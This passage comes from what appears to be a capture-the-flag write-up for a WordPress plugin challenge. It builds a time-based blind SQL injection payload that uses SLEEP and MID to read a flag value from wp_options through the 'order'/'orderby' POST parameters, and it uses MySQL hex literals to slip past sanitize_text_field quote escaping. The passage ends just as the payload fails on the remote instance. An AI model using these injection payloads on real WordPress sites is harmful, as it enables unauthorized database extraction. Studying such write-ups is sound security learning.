 Now let's modify our payload to exfiltrate the flag option via conditional statement!

```sql
(SELECT IF(MID( (SELECT option_value FROM wp_options WHERE option_name = 'flag_links_data') ,<start_position>,1)='<character_here>',SLEEP(1),NULL))
```

Oh... Wait. We can't use single or double quote characters, because it'll be escaped by WordPress function `sanitize_text_field`:

```php
function get_link_data() {
    [...]
    $order = sanitize_text_field($_POST['order']);
    $orderby = sanitize_text_field($_POST['orderby']);
```

Don't worry! In MySQL, we can use **hex characters** to avoid using single or double quote characters!

```shell
mysql> SELECT HEX('flag_links_data');
+--------------------------------+
| HEX('flag_links_data')         |
+--------------------------------+
| 666C61675F6C696E6B735F64617461 |
+--------------------------------+
```

**Final payload:**
```sql
(SELECT IF(MID( (SELECT option_value FROM wp_options WHERE option_name = 0x666C61675F6C696E6B735F64617461) ,<start_position>,1)=0x<hex_character_here>,SLEEP(1),NULL))
```

However, when we try the above payload in the remote instance, it won't work?
